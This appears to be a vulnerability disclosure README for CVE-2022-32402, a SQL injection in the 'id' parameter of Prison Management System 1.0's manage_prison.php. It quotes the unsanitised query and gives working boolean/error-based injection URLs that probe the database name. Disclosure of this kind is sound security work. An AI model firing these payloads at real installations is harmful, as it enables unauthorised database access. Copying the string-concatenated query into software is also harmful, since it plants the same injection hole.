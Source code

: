 # CVE-2022-32402
## Info
#### Prison Management System 1.0 - SQL Injection<br>
#### Vendor Homepage : https://www.sourcecodester.com/ <br>
#### Software Link : https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html

[+] Vulnerability : SQL Injection<br>
[+] Vulnerability Location : `$_GET['id']` in `/pms/admin/prisons/manage_prison.php:4`
```php
$qry = $conn->query("SELECT * from `prison_list` where id = '{$_GET['id']}' and `delete_flag` = 0 ");
```

## PoC
- Payload : 
```
# Error Based
http://localhost/pms/admin/prisons/manage_prison.php?id=1'-if(database()='pms_db',0,1)%23
```
- True : 
`http://localhost/pms/admin/prisons/manage_prison.php?id=1'-if(database()='pms_db',0,1)%23`
![True](./img/cve-2022-32402_true.png)
- False : 
`http://localhost/pms/admin/prisons/manage_prison.php?id=1'-if(database()='wrong',0,1)%23`
![False](./img/cve-2022-32402_false.png)